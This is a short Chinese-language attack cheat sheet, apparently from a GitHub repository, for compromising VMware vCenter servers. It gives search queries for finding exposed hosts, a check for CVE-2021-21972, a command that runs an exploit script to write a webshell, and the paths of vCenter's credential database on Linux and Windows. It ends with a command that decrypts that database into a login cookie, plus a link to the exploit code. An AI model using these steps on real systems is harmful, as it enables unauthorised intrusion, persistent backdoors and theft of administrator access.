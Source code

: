 # vCenter 漏洞

## 资产搜索
title="+ ID_VC_Welcome +"  或者  app="vmware-vCenter"

## POC
### 查看版本信息
`/sdk/vimServiceVersions.xml`

### CVE-2021-21972
VMware vCenter Server: 7.0/6.7/6.5
- `/ui/vropspluginui/rest/services/updateova` 响应为405表示漏洞存在
- 使用脚本工具写入webshell:`python3 CVE-2021-21972 -url`
- vCenter cookie 保存位置：  
```
LINUX : /storage/db/vmware-vmdir/data.mdb
WINDOWS : C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb
```
- 使用脚本解密cookie文件：`python3 vcenter_saml_login.py -p data.mdb -t x.x.x.x`  
- 数据包添加cookie后登陆  
  
参考：https://github.com/NS-Sp4ce/CVE-2021-21972